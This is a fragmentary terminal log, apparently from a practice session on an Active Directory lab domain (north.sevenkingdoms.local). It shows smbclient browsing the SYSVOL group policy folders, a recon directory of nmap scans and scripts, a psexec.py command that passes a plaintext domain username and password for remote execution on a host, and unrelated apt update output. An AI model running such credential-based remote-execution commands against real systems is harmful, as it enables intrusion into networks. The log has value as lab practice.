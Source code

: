 		10485247 blocks of size 4096. 7455044 blocks available
smb: \north.sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\> cd..
cd..: command not found
smb: \north.sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\> cd..
cd..: command not found
smb: \north.sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\> cd ..
smb: \north.sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\> dir
  .                                   D        0  Sun Apr 13 18:31:19 2025
  ..                                  D        0  Sun Apr 13 18:31:19 2025
  Microsoft                           D        0  Sun Apr 13 18:31:19 2025

		10485247 blocks of size 4096. 7455044 blocks available
smb: \north.sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\> cd..
cd..: command not found
smb: \north.sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\> cd ..
smb: \north.sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\> dir
  .                                   D        0  Sun Apr 13 18:31:19 2025
  ..                                  D        0  Sun Apr 13 18:31:19 2025
  GPT.INI                             A       22  Sun Apr 13 18:31:19 2025
  MACHINE                             D        0  Sun Apr 13 18:31:19 2025
  USER                                D        0  Sun Apr 13 18:31:19 2025

		10485247 blocks of size 4096. 7455044 blocks available
smb: \north.sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\> cd USER
smb: \north.sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\USER\> dir
  .                                   D        0  Sun Apr 13 18:31:19 2025
  ..                                  D        0  Sun Apr 13 18:31:19 2025

		10485247 blocks of size 4096. 7455044 blocks available
smb: \north.sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\USER\> cd..
cd..: command not found
smb: \north.sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\USER\> cd ..
smb: \north.sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\> cd ..
smb: \north.sevenkingdoms.local\Policies\> put test.txt
test.txt does not exist
smb: \north.sevenkingdoms.local\Policies\> SMBecho failed (NT_STATUS_CONNECTION_RESET). The connection is disconnected now

root@tala-HP-255-15-6-inch-G10-Notebook-PC:~/goatlab/recon# dir
goad_detailed_scan.gnmap  goad_detailed_scan.xml  script.ps1
goad_detailed_scan.nmap   GPT.INI		  secret.ps1
root@tala-HP-255-15-6-inch-G10-Notebook-PC:~/goatlab/recon# 


psexec.py 'north.sevenkingdoms.local/jeor.mormont:_L0ngCl@w_@192.168.20.22'




➜  ~ sudo apt update
sudo apt install python3 python3-pip python3-venv
[sudo] Passwort für tala: 
OK:1 http://security.ubuntu.com/ubuntu noble-security InRelease
OK:2 https://download.docker.com/linux/ubuntu noble InRelease                               
OK:3 https://repo.radeon.com/amdgpu/6.3.1/ubuntu jammy InRelease                            
OK:4 https://repo.protonvpn.com/debian stable InRelease                                     
OK:5 https://ppa.launchpadcontent.net/deadsnakes/ppa/ubuntu noble InRelease                 
OK:6 http://archive.ubuntu.com/ubuntu noble InRelease                     
OK:7 https://ppa.launchpadcontent.net/papirus/papirus/ubuntu noble InRelease
OK:8 https://repo.radeon.com/rocm/apt/6.3.1 jammy InRelease               
OK:9 http://archive.ubuntu.com/ubuntu noble-updates InRelease
OK:10 http://archive.ubuntu.com/ubuntu noble-backports InRelease
Paketlisten werden gelesen… Fertig
Abhängigkeitsbaum wird aufgebaut… Fertig
Statusinformationen werden eingelesen… Fertig